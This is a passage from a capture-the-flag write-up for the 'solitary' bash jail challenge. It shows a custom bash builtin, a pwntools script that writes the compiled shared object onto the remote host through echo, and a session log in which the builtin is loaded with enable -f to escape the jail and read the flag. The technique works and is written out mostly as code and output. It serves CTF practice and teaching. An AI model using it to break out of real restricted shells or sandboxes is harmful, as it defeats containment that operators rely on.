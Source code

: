 ```C
};

struct builtin escape_struct = {
	"escape",
	escape_builtin,
	BUILTIN_ENABLED,
	escape_doc,
	"escape",
	0
};
```

After compiling this to a shared object called `escape`, we can use a simple pwntools script to copy it to the remote:

```py
from pwn import *

conn = remote('solitary.ctf.secso.cc', 31337)

with open('./escape', 'rb') as f:
    so = f.read()
    so_str = "".join(["\\" + hex(byte)[1:] for byte in so])

    conn.send(b"echo -e -n '" + so_str.encode() + b"' > ./escape\n")

conn.interactive()
```

Now we can load and run the builtin to escape the jail!

```
[+] Opening connection to solitary.ctf.secso.cc on port 31337: Done
[*] Switching to interactive mode
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
--------------------------------------------------------------------------------
<\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0' > ./escape
bash-5.2# $ enable -f ./escape escape
enable -f ./escape escape
bash-5.2# $ escape
escape
bash-5.2# $ ls
ls
bin
etc
flag
home
jail
lib
lib64
opt
root
sbin
solitary
usr
var
bash-5.2# $ cat flag
cat flag
SCONES{s0rry_about_th3_war_cr1mes}
```
